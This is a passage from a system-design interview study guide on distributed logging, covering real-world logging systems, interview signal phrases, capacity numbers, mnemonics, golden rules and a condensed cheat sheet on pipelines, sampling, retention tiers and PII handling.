| **Microsoft** | Windows Azure Storage (WAS) | Explicitly called out in this chapter's source: logs stay on **local disks**, and instead of centralizing storage, WAS runs a **distributed grep-like search utility** across nodes — an alternative to the "ship everything centrally" model |
| **Amazon** | CloudWatch Logs | Managed, pay-as-you-go logging for AWS-native workloads; the "don't build this yourself" option for small/medium scale |
| **Facebook/Meta** | Scuba, internal log pipelines | Explicitly cited in this chapter's source as the "billions of events/sec, sampling is mandatory" scale example |
| **CNCF** | OpenTelemetry Collector | Vendor-neutral agent unifying logs+metrics+traces collection/export in one SDK — the modern successor to running separate Fluentd/Logstash/APM agents per signal |

### Cheat-sheet
- Kafka's origin story (LinkedIn, log aggregation, 2011) is the single most relevant real-world fact for this chapter — always mention it.
- Loki vs Elasticsearch is your go-to "here's a real trade-off companies actually made differently" example.
- WAS's grep-based distributed search (no centralized store) is the contrarian alternative architecture — mention it if asked "is there another way to do this?"
- Facebook-scale = sampling becomes mandatory, not optional — use this to justify sampling discussions.
- OpenTelemetry is the answer if asked "how would you avoid running 3 separate agents for logs/metrics/traces?"

---

## 12. How and When to Bring This Up in an Interview

**Signal phrases that mean "this is a distributed logging / observability question":**
- "Design a system to collect logs from thousands of servers."
- "How would you debug an issue that spans many microservices?"
- "Design Splunk / Datadog / an observability platform."
- "Design a system to centralize application logs across data centers."
- "How do you find the root cause of an outage across a large fleet quickly?"
- "Design an alerting/monitoring pipeline" (adjacent — clarify metrics vs logs vs both).

**When it shows up as a sub-component of a bigger design** (very common): almost any "design X at scale" (YouTube, Uber, Twitter) interview expects you to casually mention "we'd ship structured logs through a Kafka-backed pipeline into Elasticsearch/Loki with trace IDs for cross-service debugging" as part of the non-functional/operability section — you don't need a deep dive unless asked.

**What to say in the first 60 seconds:**
1. Functional reqs: write, search, visualize, (alert).
2. Non-functional reqs: low write latency (off critical path), scalable, available, bounded durability.
3. Building blocks you'll reuse: Pub-Sub, Blob Store, Distributed Search.
4. One sentence on the core tension: "logs are rarely read but must never be slow to write or search when they matter."

### Cheat-sheet
- If the prompt says "debug across microservices," lead with tracing (trace/span IDs) *and* logging together — don't answer with logging alone.
- If asked to design Splunk/Datadog, add multi-tenancy + ingestion-based billing as extra requirements on top of this chapter's design.
- When logging is a sub-component of a bigger system design, keep it to 2–3 sentences unless the interviewer digs in.
- Always open with functional + non-functional requirements before any box is drawn — this chapter's source structures the whole design this way.

---

## 13. Numbers Worth Memorizing

| Metric | Typical value | Why it matters |
|---|---|---|
| Average structured log line size | 200–500 bytes | Core input to ingestion volume math |
| Text log compression ratio (gzip) | 5–10× | Logs are highly repetitive text → compress very well |
| Kafka single-partition write throughput | ~10–20 MB/s | Drives partition-count sizing |
| Kafka broker sustained disk write throughput | ~100–200 MB/s (SSD) | Drives broker-count sizing |
| Sequential SSD write throughput | ~400–500 MB/s | Ceiling for accumulator/broker local disk |
| Sequential HDD write throughput | ~100–150 MB/s | Cheaper cold-tier option |
| 1 Gbps network link | ~125 MB/s | Convert Gbps ↔ MB/s quickly in interviews |
| 10 Gbps network link | ~1.25 GB/s | Typical modern data-center NIC |
| Elasticsearch recommended shard size | 20–50 GB | Drives ES node/shard count math |
| Elasticsearch index overhead | ~1.1–1.5× raw data | Inverted index + metadata cost |
| Typical replication factor (Kafka / ES) | 2–3 | Multiplies both storage and write bandwidth |
| Syslog UDP datagram practical limit | ~1024 bytes (RFC 3164) | Why long log lines get truncated over plain syslog |
| S3/Glacier cold storage cost | ~$0.023/GB (S3 Standard) down to ~$0.001/GB (Glacier Deep Archive) | Justifies aggressive tiering to cold storage |
| Facebook-scale log rate (cited in source) | Billions of events/sec | The point at which sampling becomes mandatory, not optional |
| Priority sampling reduction (worked example) | ~7-8x fewer logs, zero signal loss | Keep 100% WARN/ERROR/FATAL, sample DEBUG at 1%, INFO at 10% |
| Fluent Bit memory footprint | ~450 KB | Why it's the default edge agent on resource-constrained hosts |
| GDPR erasure request SLA | 30 days (Art. 17) | Drives the "erasure API + audit trail" design requirement |

### Cheat-sheet
- Know the Gbps→MB/s conversion cold (÷8): 1 Gbps ≈ 125 MB/s — used constantly in capacity math.
- Kafka partition throughput (~10-20MB/s) and broker disk throughput (~150MB/s) are the two numbers that drive all pub-sub sizing questions.
- Compression ratio (5-10x for text) is why "raw" and "actual stored" numbers in your estimation should always differ — never present raw size as final storage need.
- Cold storage being ~10-20x cheaper than hot is the economic argument for tiering — quote a rough ratio, not exact pricing.
- Priority sampling's ~7-8x reduction number is your answer to "how do you cut logging cost at scale?" — memorize the math, not just the concept.

---

## 14. Memory Hooks

- **Log levels (ascending severity):** DEBUG → INFO → WARNING → ERROR → FATAL/CRITICAL.
  Mnemonic: *"Debug whispers, Info narrates, Warning nags, Error shouts, Fatal buries."*
- **Delivery guarantees:** at-most-once = "fire and forget" (may lose); at-least-once = "nag until acked" (may duplicate); exactly-once = "the unicorn" (needs dedup + idempotency, expensive).
- **Architecture components** (9 of them) — sentence mnemonic mapping first letters *A-P-F-E-A-B-I-V-E*:
  *"A Package From Every Alarm Bin Is Viewed, Eventually"* → **A**ccumulator, **P**ub-sub, **F**ilterer, **E**rror aggregator, **A**lert aggregator, **B**lob storage, **I**ndexer, **V**isualizer, **E**xpiration checker.
- **Retention tiers:** Hot (searchable, expensive) → Warm (compressed, cheaper) → Cold (archive, cheapest) → Deleted. Mnemonic: *"Hot logs get read, cold logs get filed, dead logs get shredded."*
- **Three pillars of observability:** Logs = WHAT, Metrics = HOW MUCH, Traces = WHERE (in the call graph).
- **Sampling priority:** *"Errors always ride, Debug rolls the dice."* Never sample away WARN/ERROR/FATAL; sample DEBUG/INFO hard.
- **PII handling:** *"Mask what identifies, hash what correlates, drop what's radioactive."* Names/emails → mask; user IDs → hash (still joinable); secrets/card numbers → drop entirely.
- **Schema evolution:** *"Add, don't rename."* Additive fields are safe; renames/retypes need a version bump and dual-write.

### Cheat-sheet
- Say the log-level mnemonic out loud if asked to list levels — it prevents skipping WARNING (the most commonly forgotten level).
- Use the fire-and-forget / nag-until-acked / unicorn framing for delivery guarantees — instantly signals you understand the durability spectrum.
- The 9-component architecture is the single most re-used fact in this chapter; the mnemonic sentence is worth memorizing verbatim.
- The three new one-liners (sampling, PII, schema) are the fastest way to sound senior on the "how do you control cost/risk at scale" follow-up questions.

---

## 15. Golden Rules

1. **Never let logging block the request's critical path.** Async write, low-priority thread, local buffer first — always.
2. **Some log loss is an acceptable design outcome, not a bug** — unlike a database, 100% durability is not the goal; state the accepted loss window explicitly.
3. **Tier your retention.** Hot (searchable, short window) → warm → cold (archive, long window) → delete. Never keep everything hot forever — cost grows unbounded.
4. **Sample before you drown.** At extreme scale (billions of events/sec), sampling isn't optional — decide the strategy (uniform, priority-based, error-biased) up front.
5. **Isolate tenants.** Route different applications/services to separate storage (the filterer's job) — never let one noisy service's logs swamp another's.
6. **Treat log content as untrusted input.** Never interpolate/execute anything found inside a log message (Log4Shell is the permanent lesson here).
7. **Causality needs more than wall-clock time.** Use unique IDs (app-id + service-id + timestamp) or trace/span IDs — raw timestamps across nodes are unreliable due to clock skew.
8. **Logs, metrics, and traces are complementary, not substitutes** — a mature design references all three (or explicitly scopes the interview to one).
9. **Structure or it doesn't count.** Unstructured text can't be searched, alerted on, or sampled intelligently — JSON/key-value logging is a prerequisite, not a nice-to-have.
10. **Schema changes are additive-only.** Add optional fields; never rename/remove/retype in place — consumers must tolerate unknown fields.
11. **Alert on rates, not single events.** One ERROR is noise; a sustained rate over a window (with a "for" clause to avoid flapping) is a page.

---

## 16. Master Cheat Sheet

**One-liner definition:** Distributed logging is an async, durable, searchable pipeline that moves "an event happened somewhere in the fleet" to "a human or alerting system can query it" — without ever touching the request's critical path.

**Architecture in one line:** `App → Log Accumulator (local, async) → Pub-Sub (Kafka) → [Filterer | Error Aggregator | Alert Aggregator | Archiver] → Blob Storage → Log Indexer → Search Index → Visualizer`, with an Expiration Checker moving data hot → warm → cold → deleted.

**9-component mnemonic:** *"A Package From Every Alarm Bin Is Viewed, Eventually"* (Accumulator, Pub-sub, Filterer, Error-aggregator, Alert-aggregator, Blob-storage, Indexer, Visualizer, Expiration-checker).

**Capacity formula chain:**
```
logs/sec × avg_size = raw bytes/sec
raw bytes/sec ÷ compression_ratio = compressed bytes/sec
compressed bytes/sec × retention_sec = storage/tier
storage/tier × replication × index_overhead = actual disk
actual disk ÷ disk_per_node = node count
partitions = ceil(ingest_bw ÷ per_partition_throughput) × headroom
brokers = ceil((ingest_bw × kafka_RF) ÷ per_broker_disk_bw)
total network ≈ ingest_bw × (1 + (RF−1) + num_consumers)
```

**Worked example headline numbers:** 1M logs/sec, 500B avg → 500 MB/s raw (~4 Gbps) → 100 MB/s compressed → 121 TB hot (14 days) → 315 TB actual ES disk (~80-90 nodes) → 3.15 PB cold (365 days) → ~100 Kafka partitions, ~12-15 brokers → ~28 Gbps total cluster network (7x the raw ingest rate due to replication + fan-out).

**Numbers to have cold:** 1 Gbps ≈ 125 MB/s · log line ≈ 200-500B · gzip on logs ≈ 5-10x · Kafka partition ≈ 10-20 MB/s · Kafka broker disk ≈ 100-200 MB/s · ES shard target ≈ 20-50GB · replication factor ≈ 2-3 · cold storage ≈ 10-20x cheaper than hot.

**Confused-pair quick answers:**
- Push vs pull shipping → logs are push (Filebeat/Fluentd), metrics are pull (Prometheus).
- Sync vs async flush → default to async; sync only for compliance/audit logs.
- Aggregation vs analysis → aggregation collects, analysis queries/correlates.
- Logging vs metrics vs tracing → WHAT vs HOW MUCH vs WHERE.

**Golden rules, condensed:** never block on logging · accept bounded loss · tier retention · sample at extreme scale · isolate tenants · never trust log content · use IDs not wall-clocks for causality · combine all 3 observability pillars · structure or it doesn't count · schemas are additive-only · alert on rates not single events.

**Deep-dive quick answers:**
- Agents: Filebeat/Fluent Bit = lightweight edge tailers; Logstash/Fluentd = heavier parsing/routing aggregators; OpenTelemetry Collector = modern unified agent.
- Backpressure policies: block (never) · drop-oldest · drop-newest · spill-to-disk · shed-by-priority (keep WARN+) — pick shed-by-priority by default.
- Sampling: keep 100% of ERROR/FATAL, sample DEBUG/INFO hard (1-10%) — priority/tail-based beats uniform; worked example gives ~7-8x reduction.
- PII: mask what identifies, hash what correlates, drop what's radioactive (secrets/credentials) — GDPR erasure needs an API + audit trail within 30 days.
- Schema evolution: additive-only; consumers ignore unknown fields; never rename/retype in place.
- Query languages: Splunk SPL (most powerful, $$$) · Kibana KQL/Lucene (mid) · Loki LogQL (cheapest, label-indexed only) — same cost/power order as Splunk > ELK > Loki elsewhere in this guide.
- 🆕 Evolution: v1 direct-to-DB (blocks requests) → v2 agent + Kafka (all hot, unbounded cost) → v3 tiered + indexed + backpressure-aware (the target design).
- 🆕 Indexing: inverted index (term → posting list) built per time-partitioned index (one per service per day) — enables both fast range queries and cheap whole-index tier migration.
- 🆕 Tiers, one line each: hot = firefighting (ms search, priciest) · warm = last week (slower search, mid cost) · cold = for lawyers (restore-only, 10-20x cheaper).

**Real-world anchors:** Kafka (LinkedIn, born for log aggregation) · ELK/EFK (open-source default) · Loki (cheap label-indexed alternative to ES) · Splunk (enterprise/SIEM, expensive) · Google Dapper (tracing ancestor) · WAS (grep-based alternative, no central store) · Log4Shell (logging pipeline as attack surface) · Facebook (sampling-mandatory scale) · OpenTelemetry (unifies logs/metrics/traces under one agent).

**If asked "design X" and logging is a sub-topic:** one sentence — "structured logs, async-shipped through Kafka into Elasticsearch/Loki, tagged with trace IDs for cross-service correlation, tiered to cold storage after N days" — then move on unless probed.
